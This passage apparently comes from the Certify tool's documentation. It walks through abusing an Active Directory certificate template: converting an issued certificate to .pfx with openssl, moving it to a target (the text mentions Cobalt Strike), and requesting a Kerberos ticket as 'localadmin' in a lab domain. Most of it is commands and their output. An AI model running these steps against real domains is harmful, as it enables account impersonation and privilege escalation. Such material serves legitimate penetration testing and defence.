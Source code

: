     [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 337

    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAn8bKuwCYj8...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIGITCCBQmgAwIBAgITVQAAAV...
    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



    Certify completed in 00:00:04.2127911


Copy the ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` section to a file on Linux/macOS, and run the openssl command to convert it to a .pfx. When prompted, don't enter a password:

    (base) laptop:~ harmj0y$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    Enter Export Password:
    Verifying - Enter Export Password:
    (base) laptop:~ harmj0y$


Finally, move the cert.pfx to your target machine filesystem (manually or through Cobalt Strike), and request a TGT for the `altname` user using Certify:

    C:\Temp>Certify.exe asktgt /user:localadmin /certificate:C:\Temp\cert.pfx

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.6.1

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=harmj0y, OU=TestOU, DC=theshire, DC=local
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'theshire.local\localadmin'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIFujCCBbagAwIBBaEDAgEWooIExzCC...(snip)...

      ServiceName           :  krbtgt/theshire.local
      ServiceRealm          :  THESHIRE.LOCAL
      UserName              :  localadmin
      UserRealm             :  THESHIRE.LOCAL
      StartTime             :  2/22/2021 2:06:51 PM
      EndTime               :  2/22/2021 3:06:51 PM
      RenewTill             :  3/1/2021 2:06:51 PM
      Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
      KeyType               :  rc4_hmac
      Base64(key)           :  Etb5WPFWeMbsZr2+FQQQMw==
